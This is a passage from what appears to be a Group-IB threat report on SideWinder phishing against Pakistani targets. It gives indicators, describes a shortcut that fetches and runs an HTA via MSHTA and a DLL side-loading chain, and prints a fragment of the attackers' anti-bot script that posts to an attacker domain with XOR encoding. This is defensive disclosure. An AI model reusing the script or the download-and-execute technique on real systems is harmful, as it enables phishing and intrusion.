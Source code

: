 the redirect function still led to a link with a payload: Image 27. A snippet of SideWinder.AntiBot.ScriptAccordingly, the structure of network requests on this domain is as follows: Image 28. Screenshot with network requestsThe screenshot above shows link clicks from the initial phishing link - hxxps://finance.govpk-mail[.]net/financecircular-38149cbd to the page with the script, which is responsible for releasing the malicious file: Image 29. A piece of malicious code that issues a payload.Payload In one case the downloadable file (SHA1- 4421f214c91a08ac0318871c6f918cfffe36d039) was an archive named "Pay and Pension Increase Circular_Finance Division.zip"The contents of this archive consist of files:64a889e35b10a902170abe092c6c6b8f16c66dd1 - Pay and Pension Increase Circular_Finance Division.pdf.lnk;5e5e038453fde5ddf57820783dd9ce8f5f042df2 - ~wnotification002.tmp;6a99ce5387c5b67602b2ef633bfbdc184e4d845c - ~wnotification003.tmp. Image 30. Contents of "Pay and Pension Increase Circular_Finance Division.zip"Pay and Pension Increase Circular_Finance Division.pdf.lnk" is a shortcut that contains a command to download and execute the file hxxps://finance.govpk-mail[.]net/15523/1/12443/2/0/0/1/1874254181/79DWxM3xhqvyZapU4oq7D3M8j5wB6f4HVHnbIEc/files-60b6e42b/hta using MSHTA. Image 31. Contents of "Pay and Pension Increase Circular_Finance Division.pdf.lnkUnfortunately, the second stage of the payload turned out to be inactive, so we got a "404 Not Found" error. Image 32. Screenshot of the error receiving the second stage of the payload.However, this attack is not unique to SideWinder. HTAs typically contain PowerShell, VBScript, or JavaScript, and the latter has been seen more often in recent attacks.HTAs are typically used to download files for later use by the DLL-sideloading technique. In some cases, HTAs also upload a decoy document, usually in PDF format, to put the victim's attention down.The use of this technique by this group was mentioned publicly by researchers from weixin: Image 33. Fragment of Kill Chain taken from https://mp.weixin.qq.com/s/Kkta59k7r81uIBjJvE9pCwWhen using this technique, HTA will load the "Duser.dll" file and copy the system file "credwiz.exe" into the same directory. The "credwiz.exe" loads "Duser.dll" with the Dll Side-Loading technique, which in turn downloads and executes the final backdoor. The final backdoor allows the attacker:Collect system information;Collect list of files and paths to them;Collect selected files;Update commands and C2 addresses. Conclusion Given the SideWinder’s widespread activity deploying new command and control servers and the number of observed phishing links, Group-IB Threat Intelligence team decided to publish these findings so that potential targets in Pakistan identified as part of the research could check their networks and identify attacks by Sidewinder that are in early stages. If you believe you may be a victim of similar phishing campaigns or that you may be one of the attackers’ targets, please reach out.Try Group-IB Threat Intelligence now!Optimize strategic, operational and tactical decision-making with best-in-class cyber threat analyticsTest Drive Group-IB Threat Intelligence IOCs Fragment of SideWinder.AntiBot.Script from https://finance.pakgov[.]net/salary-a4222e91 
<script>
	function buttonClick() {
		if (navigator.geolocation) {
			navigator.geolocation.getCurrentPosition(showPosition);
		} else {
			x.innerHTML = 'Geolocation is not supported by this browser.';
		}
	}

	function showPosition(position) {
		alert(`lat ${position.coords.latitude} long ${position.coords.longitude}`);
	}
</script>
<script>
	var postUrl = 'https://finance.pakgov[.]net/733/1/670/2/0/0/1874372994/HvEdALWHsRoqS3eIArlDgXiyAcvV5TsjfqF7kVAK/files-8adb0199/ads';

	function encode(data, xorKey) {
		let enc = new TextEncoder();
		let dataBuff = enc.encode(data);
		let keyBuff = enc.encode(xorKey);
